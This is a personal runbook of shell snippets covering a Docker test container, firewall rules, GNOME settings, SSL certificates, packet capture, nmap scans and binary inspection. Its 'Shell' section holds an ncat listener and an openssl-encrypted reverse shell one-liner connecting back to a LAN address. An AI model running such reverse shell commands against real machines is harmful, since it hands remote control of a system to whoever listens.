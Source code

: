 # Runbook

...

## Docker test environment

Start container:

```bash
docker run --name vmtest --rm -dit nicolaka/netshoot bash
docker cp bin/client vmtest:/client
docker exec -it vmtest bash
````

Check the host gateway from inside the container:

```bash
ip route | grep default
```

---

## Firewall (UFW)

Allow incoming connections to TCP port **8969**:

```bash
sudo ufw allow from 192.168.0.0/24 to any port 8969 proto tcp
```

---

## GNOME utils

Set wallpapers:

```bash
gsettings get org.gnome.desktop.interface color-scheme
gsettings get org.gnome.desktop.background picture-uri
#gsettings get org.gnome.desktop.background picture-uri-dark
gsettings set org.gnome.desktop.background picture-uri 'file://<image-path>'
#gsettings set org.gnome.desktop.background picture-uri-dark 'file://<image-path>'
```

Open terminal with msg:

```bash
gnome-terminal -- bash -c "echo 'Hello world'; exec bash"
```

## Shell

Upgrade shell:

```bash
ncat -lvnp 4242
#python shtty.py
```

SSL:

```bash
ncat --ssl -lvnp 4242 --ssl-cert cert.pem --ssl-key key.pem
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 192.168.0.x:4242 > /tmp/s; rm /tmp/s
#mkfifo /tmp/s; python -c 'import pty; pty.spawn("/bin/sh")' < /tmp/s 2>&1 | openssl s_client -quiet -connect 192.168.0.x:4242 > /tmp/s; rm /tmp/s
```

## SSL

Generate SSL cert:

```bash
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
```

## tcpdump

```bash
sudo tcpdump -i any tcp port 4242 -n -vv
#sudo tcpdump -i any tcp port 4242 -n -X
sudo tcpdump -i any host 192.168.0.x and port 4242 -n -X -w conn4242.pcap
```

## nmap

```bash
nmap -p- -sV 192.168.0.x
sudo nmap -sS -p- 127.0.0.1
```

## etc

```bash
sudo ss -antup
sudo lsof -p <PID>
nc -vz <HOST> <PORT>

readelf -h bin/client
objdump -x bin/client
ldd bin/client
strings -a bin/client | less
objdump -d bin/client | less
strace -f -o trace.log bin/client
ltrace -f -o ltrace.log bin/client
sudo sysdig proc.name=client
gdb bin/client

sudo tcpdump -i any -w sample.pcap
sudo inotifywait -r /tmp /var /home -m




```



...


